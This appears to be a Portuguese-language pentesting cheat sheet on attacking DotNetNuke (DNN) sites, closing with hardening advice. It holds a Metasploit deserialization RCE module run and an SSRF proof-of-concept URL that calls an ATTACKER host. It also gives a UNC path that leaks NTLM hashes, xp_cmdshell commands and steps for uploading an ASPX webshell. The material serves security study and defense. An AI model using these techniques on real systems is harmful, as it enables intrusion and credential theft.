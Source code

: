 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Se você entrar como **administrador** no DNN, é fácil obter **RCE**, no entanto, várias técnicas *não autenticadas* e *pós-autenticação* foram publicadas nos últimos anos. Este cheat-sheet coleta os primitivas mais úteis para trabalhos ofensivos e defensivos.

---
## Enumeração de Versão e Ambiente

* Verifique o cabeçalho de resposta HTTP *X-DNN* – geralmente revela a versão exata da plataforma.
* O assistente de instalação vaza a versão em `/Install/Install.aspx?mode=install` (acessível em instalações muito antigas).
* `/API/PersonaBar/GetStatus` (9.x) retorna um blob JSON contendo `"dnnVersion"` para usuários de baixo privilégio.
* Cookies típicos que você verá em uma instância ao vivo:
* `.DOTNETNUKE` – ticket de autenticação de formulários ASP.NET.
* `DNNPersonalization` – contém dados de perfil de usuário em XML/serializados (versões antigas – veja RCE abaixo).

---
## Exploração Não Autenticada

### 1. RCE de Desserialização de Cookie (CVE-2017-9822 e seguimentos)
*Versões afetadas ≤ 9.3.0-RC*

`DNNPersonalization` é desserializado em cada solicitação quando o manipulador 404 embutido está habilitado. XML elaborado pode, portanto, levar a cadeias de gadgets arbitrárias e execução de código.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
O módulo escolhe automaticamente o caminho certo para versões corrigidas, mas ainda vulneráveis (CVE-2018-15811/15812/18325/18326). A exploração funciona **sem autenticação** nas versões 7.x–9.1.x e com uma conta de *baixo privilégio* *verificada* nas versões 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Versões afetadas < 9.13.8  –  Patch lançado em abril de 2025*

Um bypass da correção anterior do `DnnImageHandler` permite que um atacante force o servidor a emitir **requisições GET arbitrárias** (SSRF semi-cega). Impactos práticos:

* Escaneamento de portas internas / descoberta de serviços de metadados em implantações na nuvem.
* Acessar hosts que, de outra forma, estariam protegidos por firewall da Internet.

Prova de conceito (substitua `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
A solicitação é acionada em segundo plano; monitore seu listener para callbacks.

### 3. Exposição de Hash NTLM via Redirecionamento UNC  (CVE-2025-52488)
*Versões afetadas 6.0.0 – 9.x (< 10.0.1)*

Conteúdo especialmente elaborado pode fazer com que o DNN tente buscar um recurso usando um **caminho UNC** como `\\attacker\share\img.png`. O Windows realizará a negociação NTLM, vazando os hashes da conta do servidor para o atacante. Atualize para **10.0.1** ou desative o SMB de saída no firewall.

### 4. Bypass de Filtro de IP  (CVE-2025-52487)
Se os administradores confiarem em *Filtros de Host/IP* para proteção do portal de administração, esteja ciente de que versões anteriores a **10.0.1** podem ser contornadas manipulando `X-Forwarded-For` em um cenário de proxy reverso.

---
## Pós-Autenticação para RCE

### Via console SQL
Sob **`Configurações → SQL`** uma janela de consulta embutida permite a execução contra o banco de dados do site. No Microsoft SQL Server, você pode habilitar **`xp_cmdshell`** e gerar comandos:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via upload de webshell ASPX
1. Vá para **`Settings → Security → More → More Security Settings`**.
2. Adicione `aspx` (ou `asp`) a **Allowable File Extensions** e **Save**.
3. Navegue até **`/admin/file-management`** e faça o upload de `shell.aspx`.
4. Acione-o em **`/Portals/0/shell.aspx`**.

---
## Escalação de Privilégios no Windows
Uma vez que a execução de código é alcançada como **IIS AppPool\<Site>**, técnicas comuns de escalonamento de privilégios do Windows se aplicam. Se a máquina for vulnerável, você pode aproveitar:

* **PrintSpoofer** / **SpoolFool** para abusar do *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** para escapar de *Service Accounts*.

---
## Recomendações de Fortalecimento (Blue Team)

* **Upgrade** para pelo menos **9.13.9** (corrige bypass de SSRF) ou preferencialmente **10.0.1** (problemas de filtro de IP e NTLM).
* Remova arquivos residuais **`InstallWizard.aspx*`** após a instalação.
* Desative a saída SMB (portas 445/139).
* Aplique filtros de *Host* fortes no proxy de borda em vez de dentro do DNN.
* Bloqueie o acesso a `/API/RemoteContentProxy` se não estiver em uso.

## Referências

* Documentação do módulo Metasploit `dnn_cookie_deserialization_rce` – detalhes práticos de RCE não autenticado (GitHub).
* Aviso de Segurança do GitHub GHSA-3f7v-qx94-666m – informações sobre bypass de SSRF de 2025 e patch.
{{#include ../../banners/hacktricks-training.md}}
